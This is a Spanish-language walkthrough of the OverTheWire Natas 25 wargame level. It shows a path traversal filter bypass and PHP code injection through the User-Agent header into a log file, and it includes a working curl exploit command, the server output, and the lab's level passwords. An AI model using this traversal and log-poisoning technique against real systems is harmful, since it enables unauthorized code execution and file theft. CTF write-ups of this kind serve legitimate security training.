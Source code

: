 # Natas 25

#### URL: http://natas25.natas.labs.overthewire.org
#### Credenciales: natas25:ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws

La pagina abre un archivo especificado por el parametro "lang" en la ruta /language/, si no se le especifica entonces abre /language/en:
``` php
 function setLanguage(){
        /* language setup */
        if(array_key_exists("lang",$_REQUEST))
            if(safeinclude("language/" . $_REQUEST["lang"] ))
                return 1;
        safeinclude("language/en"); 
    }
```

Hay una verificacion para casos de path traversal pero nos lo podemos saltar duplicando los caracteres ("....//"):
``` php
    // check for directory traversal
        if(strstr($filename,"../")){
            logRequest("Directory traversal attempt! fixing request.");
            $filename=str_replace("../","",$filename);
        }
```

Intentamos `http://natas25.natas.labs.overthewire.org/?lang=....//....//....//....//....//etc/natas_webpass/natas26` pero no nos permite leer ese archivo.

Se almacena un archivo de registro cuyo nombre contiene el valor de nuestra cookie de sesion:
``` php
   function logRequest($message){
        $log="[". date("d.m.Y H::i:s",time()) ."]";
        $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
        $log=$log . " \"" . $message ."\"\n"; 
        $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
        fwrite($fd,$log);
        fclose($fd);
    }
```

Aqui hay que notar que se almacena el valor de nuestro user-agent en el texto, texto que se renderizara sin escapar en la pagina. Podemos inyectar codigo php alli para leer /etc/natas_webpass/natas26. 

Con todo esto, especificamos el archivo a leer, nuestra cookie y el comando en la cabecera User-Agent:
``` bash
curl -u natas25:ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws http://natas25.natas.labs.overthewire.org/?lang=....//....//....//....//....//var/www/natas/natas25/logs/natas25_e1eefn6p70gvree7nq70lsi2dk.log -H "Cookie: PHPSESSID=e1eefn6p70gvree7nq70lsi2dk" --user-agent "<?php echo shell_exec(\"cat /etc/natas_webpass/natas26\");?>"
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src="http://natas.labs.overthewire.org/js/wechall-data.js"></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas25", "pass": "ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws" };</script></head>
<body>

<h1>natas25</h1>
<div id="content">
<div align="right">
<form>
<select name='lang' onchange='this.form.submit()'>
<option>language</option>
<option>en</option><option>de</option></select>
</form>
</div>

[21.03.2025 01::11:36] cVXXwxMS3Y26n5UZU89QgpGmWCelaQlE
 "Directory traversal attempt! fixing request."
[21.03.2025 01::11:39] cVXXwxMS3Y26n5UZU89QgpGmWCelaQlE
 "Directory traversal attempt! fixing request."
[21.03.2025 01::15:59] cVXXwxMS3Y26n5UZU89QgpGmWCelaQlE
 "Directory traversal attempt! fixing request."
<br />
<b>Notice</b>:  Undefined variable: __GREETING in <b>/var/www/natas/natas25/index.php</b> on line <b>80</b><br />
<h2></h2><br />
<b>Notice</b>:  Undefined variable: __MSG in <b>/var/www/natas/natas25/index.php</b> on line <b>81</b><br />
<p align="justify"><br />
<b>Notice</b>:  Undefined variable: __FOOTER in <b>/var/www/natas/natas25/index.php</b> on line <b>82</b><br />
<div align="right"><h6></h6><div><p>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

`natas26:cVXXwxMS3Y26n5UZU89QgpGmWCelaQlE`
